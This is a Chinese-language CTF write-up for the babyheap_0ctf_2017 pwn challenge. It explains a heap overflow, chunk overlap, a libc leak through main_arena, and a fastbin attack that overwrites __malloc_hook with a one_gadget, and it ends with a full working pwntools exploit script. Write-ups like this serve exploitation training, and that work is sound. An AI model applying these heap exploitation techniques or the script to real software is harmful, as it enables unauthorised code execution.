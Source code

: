 ```yaml
---
title: BUU babyheap_0ctf_2017
description: BUU babyheap_0ctf_2017-writeup
date: 2021-07-04 15:07:56
categories:
 - PWN
tags:
---
```




# BUU babyheap_0ctf_2017

## IDA伪代码分析

首先检查一下文件

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1625406140517-19f8adca-e6fc-4ae9-bff6-a8541ca831cf.png)

拖入IDA查看

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1625406555881-dc0b3d5c-bdec-4706-a0f2-356a23d3b8de.png)

mmap了一段内存保存数据，跟做题没啥关系

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1625406688110-b62ea770-2436-4bac-8193-bae289ec8334.png)

典型的菜单

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1625406710430-03027b87-b5d3-4edc-8b6f-5efdabcf5b7e.png)

接收一个输入

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1625406728103-040771cc-da44-4a4a-9ee5-d5e90422efe3.png)

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1625406833431-c503b514-9274-41dd-80e6-0656c67da9ea.png)

Allocate的逻辑就是接收一个类似上图的结构，第一个1是判断是否已分配。这里讲一下calloc和malloc的区别，calloc不同于malloc，它会将分配的内存区域进行清零操作，这一点EXP里要注意，还有就是calloc就是malloc的一个封装，底层还是调用的malloc，这就对后面向__malloc_hook中打入one_gadget铺垫了基础。

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1625407157041-1b3c2e1e-8460-49c7-8886-30875181b437.png)

接收一个指定大小size的内容，存在堆溢出

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1625407176226-8e5849ec-30d3-46d0-aa15-608ba7f9dfc5.png)

free堆块，最后让指针等于0了，这就没有UAF了，可以从double free的思路入手。

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1625407322247-71341742-b64e-4a27-a357-0a3c102afd6f.png)

打印函数，可以将堆块的内容打印出来

## 做题思路

可以利用double free，首先申请四个chunk

```python
alloc(0x80) #0
alloc(0x80) #1 
alloc(0x80) #2
alloc(0x80) #3
```

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1625407805291-4bbce1ba-3649-4dd1-bc7c-ebc618887889.png)

free(1)将chunk1 free掉，然后通过堆溢出，修改chunk0的内容，将chunk1的size大小改成chunk1加chunk2的大小，0x121是由chunk1大小0x80和chunk2大小0x80，加上两个chunk的chunk头大小各0x10共0x20，加上prev_inuse位0x1，总共0x121，然后alloc(0x110)重新将chunk1分配回来，这样chunk1和chunk2就有重叠部分了，又因为calloc清零操作，需要通过堆溢出将chunk2的size大小改回去，然后将chunk2free掉，因为chunk2大小为0x80，free之后会进入unsorted bin，此时free chunk2的fd和bk指针指向main_arean+88的位置，然后通过dump(1)将chunk1打印，因为free chunk2也在chunk1的范围，这样就可以通过free chunk2的fd指针泄露出main_arean+88的地址

```python
free(1)
payload = 'a' * 0x88 + p64(0x121)
fill(0, payload)
alloc(0x110) #1
payload = 'a' * 0x88 + p64(0x91)
fill(1, payload)
free(2)
dump(1)
```

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1625408015726-e953bf4a-80fc-438b-81a4-12523c0f0798.png)

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1625408905348-1bc6cf14-10ed-41ca-af13-83bc6cb3f098.png)

为什么是main_aren+88，这是固定，我们可以通过调试看看

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1625408927798-4926a33c-4313-49dc-bac6-b8d4e07b29a6.png)

此时main_arean+88为0x7f8a25985b78，那么main_arean的地址就减去88为0x7f8a25985b20，那我们看看main_arean-0x10是什么东西

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1625409122442-713f4747-3d98-4dad-bc03-7cdab02ff94b.png)

发现是__malloc_hook的地址泄露出来了（这好像是固定main_arean-0x10的），这样我们就可以往里面打入one_gadget

```python
malloc_hook = u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00')) - 88 - 0x10
libc_base = malloc_hook - libc.sym['__malloc_hook']
log.success('libc_base==> {}'.format(hex(libc_base)))
```

之后的思路就是通过fastbin_attack，申请两个fastbin大小的chunk，不过首先要将chunk2申请回去，然后将chunk5 free掉，此时chunk5进入fast bin中，通过堆溢出，修改chunk4的内容，将chunk5的size大小改成0x71，反正在fastbin大小范围内就可以，然后将chunk5的fd指针改为__malloc_hook-0x23，为什么是__malloc_hook-0x23，我们等等通过调试看。

```python
alloc(0x80) #2
alloc(0x60) #4
alloc(0x60)	#5
free(5)
payload = 'a' * 0x68 + p64(0x71) + p64(malloc_hook-0x23)
fill(4, payload)
```

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1625409806579-e1bb66f4-90ee-4bbf-b30b-cd606536ed54.png)

这里我们可以看到__malloc_hook-0x23有一个0x7f，是不是很熟悉，像不像chunk的结构中的size的大小，那0x7f是在fastbin的大小范围内，所以上面我们要构造fastbin大小范围内的chunk，那这样__malloc_hook-0x23就是一个伪造的fake free chunk，此时free chunk5指向了这个fake free chunk，那我们重新申请回chunk5，再申请一个chunk6，通过修改chunk6的内容，将__malloc_hook的内容改成one_gadget的地址，最后再随便申请一个堆块，这样就会调用malloc，从而触发one_gadget

```python
alloc(0x60) #5
alloc(0x60) #6

one_gadget = 0x4526a + libc_base
payload = 'a' * 0x13 + p64(one_gadget)
fill(6, payload)
alloc(0x10)
```

这里提一下libc是在BUU的资源里下载的，这题是Ubuntu16 64位的

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1625410213820-e823d06c-b494-4c61-a968-f7ae050908a2.png)

## EXP

最后贴一下EXP

```python
from pwn import * 

# context.log_level = 'debug'

p = process('babyheap_0ctf_2017')
# p = remote('node4.buuoj.cn','27623')
libc = ELF('libc-2.23.so')

def alloc(size):
    p.recvuntil("Command: ")
    p.sendline("1")
    p.recvuntil("Size: ")
    p.sendline(str(size))
 
def fill(idx, content):
    p.recvuntil("Command: ")
    p.sendline("2")
    p.recvuntil("Index: ")
    p.sendline(str(idx))
    p.recvuntil("Size: ")
    p.sendline(str(len(content)))
    p.recvuntil("Content: ")
    p.send(content)
 
def free(idx):
    p.recvuntil("Command: ")
    p.sendline("3")
    p.recvuntil("Index: ")
    p.sendline(str(idx))
 
def dump(idx):
    p.recvuntil("Command: ")
    p.sendline("4")
    p.recvuntil("Index: ")
    p.sendline(str(idx))

alloc(0x80) #0
alloc(0x80) #1 
alloc(0x80) #2
alloc(0x80) #3
free(1)
payload = 'a' * 0x88 + p64(0x121)
fill(0, payload)
alloc(0x110) #1
payload = 'a' * 0x88 + p64(0x91)
fill(1, payload)
free(2)
dump(1)
pause()

malloc_hook = u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00')) - 88 - 0x10
libc_base = malloc_hook - libc.sym['__malloc_hook']
log.success('libc_base==> {}'.format(hex(libc_base)))

alloc(0x80) #2
alloc(0x60) #4
alloc(0x60)	#5
free(5)
payload = 'a' * 0x68 + p64(0x71) + p64(malloc_hook-0x23)
fill(4, payload)
alloc(0x60) #5
alloc(0x60) #6

one_gadget = 0x4526a + libc_base
payload = 'a' * 0x13 + p64(one_gadget)
fill(6, payload)

alloc(0x10)

p.interactive()
```
